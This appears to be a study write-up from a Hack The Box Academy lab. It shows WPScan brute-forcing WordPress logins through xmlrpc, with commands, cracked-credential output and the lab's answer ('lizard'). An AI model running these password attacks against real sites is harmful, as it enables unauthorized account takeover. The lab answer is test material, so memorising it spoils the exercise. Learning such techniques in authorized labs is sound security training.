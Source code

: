 ﻿## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website:`admin`,`roger`, and`david`. The tool uses two kinds of login brute force attacks,`xmlrpc` and`wp-login`. The`wp-login` method will attempt to brute force the normal WordPress login page, while the`xmlrpc` method uses the WordPress API to make login attempts through`/xmlrpc.php`. The`xmlrpc` method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/ 
[+] Started: Thu Apr 9 13:37:36 2020 
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![Pasted image 20250220134229.png](../../../../IMAGES/Pasted%20image%2020250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard 
Trying roger / castro Time: 00:00:38 < > (1900 / 14346292) 0.01% ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```
